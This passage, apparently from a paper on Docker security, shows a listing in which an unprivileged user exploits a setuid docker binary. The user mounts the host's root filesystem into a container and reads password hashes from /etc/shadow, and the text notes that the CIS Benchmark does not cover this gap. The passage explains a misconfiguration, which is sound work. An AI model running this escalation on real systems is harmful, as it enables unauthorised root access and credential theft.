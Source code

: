 \begin{lstlisting}[caption={Docker \lstinline{setuid} exploit example.},captionpos=b]
(host)$ sudo -v
Sorry, user unpriv may not run sudo on host.
(host)$ groups | grep -o docker
(host)$ ls -halt /usr/bin/docker
-rwsr-xr-x 1 root root 85M okt 18 17:52 /usr/bin/docker
(host)$ docker run -it --rm -v /:/host ubuntu:latest bash
(cont)# grep admin /host/etc/shadow
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
\end{lstlisting}

We now see that we are not a part of the \lstinline{docker} group, but we can still run \lstinline{docker} because the \lstinline{setuid} bit (and the execute bit for all users) is set.

\hfill

This is not covered by the CIS Benchmark guidelines. There are multiple guidelines about correct file and directory permissions, but none cover the binaries.
